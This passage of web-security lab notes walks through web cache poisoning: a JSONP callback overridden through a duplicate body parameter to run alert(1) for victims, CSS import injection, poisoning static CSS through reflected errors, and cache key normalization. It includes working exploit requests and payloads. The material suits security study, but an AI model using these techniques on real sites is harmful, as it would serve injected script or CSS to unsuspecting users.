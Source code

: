 ```
1. Observe that every page imports the script ```/js/geolocate.js```, executing the callback function ```setCountryCookie()```. Send the request ```GET /js/geolocate.js?callback=setCountryCookie``` to Burp Repeater.
2. Notice that you can control the name of the function that is called in the response by passing in a duplicate callback parameter via the request body. Also notice that the cache key is still derived from the original callback parameter in the request line:
    ```
    GET /js/geolocate.js?callback=setCountryCookie
    …
    callback=arbitraryFunction

    HTTP/1.1 200 OK
    X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
    …
    arbitraryFunction({"country" : "United Kingdom"})
    ```
3. Send the request again, but this time pass in *alert(1)* as the callback function. Check that you can successfully poison the cache.
4. Remove any cache busters and re-poison the cache. The lab will solve when the victim user visits any page containing this resource import URL.

## Exploiting dynamic content in resource imports

For example, consider a page that reflects the current query string in an import statement:

```
GET /style.css?excluded_param=123);@import… HTTP/1.1

HTTP/1.1 200 OK
…
@import url(/site/home/index.part1.8a6715a2.css?excluded_param=123);@import…
```

You could exploit this behavior to inject malicious CSS that exfiltrates sensitive information from any pages that import */style.css*.

If the page importing the CSS file doesn't specify a doctype, you can maybe even exploit static CSS files. Given the right configuration, browsers will simply scour the document looking for CSS and then execute it. This means that you can occasionally poison static CSS files by triggering a server error that reflects the excluded query parameter:

```
GET /style.css?excluded_param=alert(1)%0A{}*{color:red;} HTTP/1.1

HTTP/1.1 200 OK
Content-Type: text/html
…
```

This request was blocked due to…alert(1){}*{color:red;}

## Normalized cache keys

Some caching implementations normalize keyed input when adding it to the cache key. In this case, both of the following requests would have the same key:

```
GET /example?param="><test>
GET /example?param=%22%3e%3ctest%3e
```

```